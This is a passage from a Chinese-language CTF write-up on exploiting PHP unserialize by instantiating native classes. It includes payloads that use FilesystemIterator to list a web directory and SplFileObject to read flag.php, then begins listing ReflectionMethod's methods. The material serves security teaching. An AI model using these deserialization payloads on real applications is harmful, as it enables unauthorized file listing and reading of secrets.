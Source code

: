 执行后得到一个文件夹 aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE：

然后进入这个文件夹

poc

```php
<?php
class A{
    public $class='FilesystemIterator';    
    // FilesystemIterator("/var/www/html")
    public $para="/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/";
    public $check;
    }

$poc  = new A();
echo urlencode(serialize($poc));
```

看到flag.php

现在我们只需要读取文件内容，利用` SplFileObject类`

payload

```php
<?php
class A{
    public $class='SplFileObject';    
    // SplFileObject("/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag.php")
    public $para="/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag.php";
    public $check;
    }

$poc  = new A();
echo serialize($poc);
```

能否利用原生类读取文件内容和文件目录？

```
echo new  $this->class ($this->para)
```

这行代码比较关键，就是能否利用原生类的关键

## 使用 ReflectionMethod 类获取类方法的相关信息

###  ReflectionMethod

**ReflectionMethod** 类报告了一个方法的有关信息。可以在 PHP 运行状态中，扩展分析 PHP 程序，导出或提取出关于类、方法、属性、参数等的详细信息，包括注释。这种动态获取的信息以及动态调用对象的方法的功能称为反射API

```php
class ReflectionMethod extends ReflectionFunctionAbstract implements Reflector {	
/*方法*/
    ReflectionMethod::__construct — ReflectionMethod 的构造函数
    ReflectionMethod::export — 输出一个回调方法
    ReflectionMethod::getClosure — 返回一个动态建立的方法调用接口，译者注：可以使用这个返回值直接调用非公开方法。
    ReflectionMethod::getDeclaringClass — 获取被反射的方法所在类的反射实例
    ReflectionMethod::getModifiers — 获取方法的修饰符
    ReflectionMethod::getPrototype — 返回方法原型 (如果存在)
    ReflectionMethod::invoke — Invoke
    ReflectionMethod::invokeArgs — 带参数执行
    ReflectionMethod::isAbstract — 判断方法是否是抽象方法
    ReflectionMethod::isConstructor — 判断方法是否是构造方法
    ReflectionMethod::isDestructor — 判断方法是否是析构方法
    ReflectionMethod::isFinal — 判断方法是否定义 final
    ReflectionMethod::isPrivate — 判断方法是否是私有方法
```
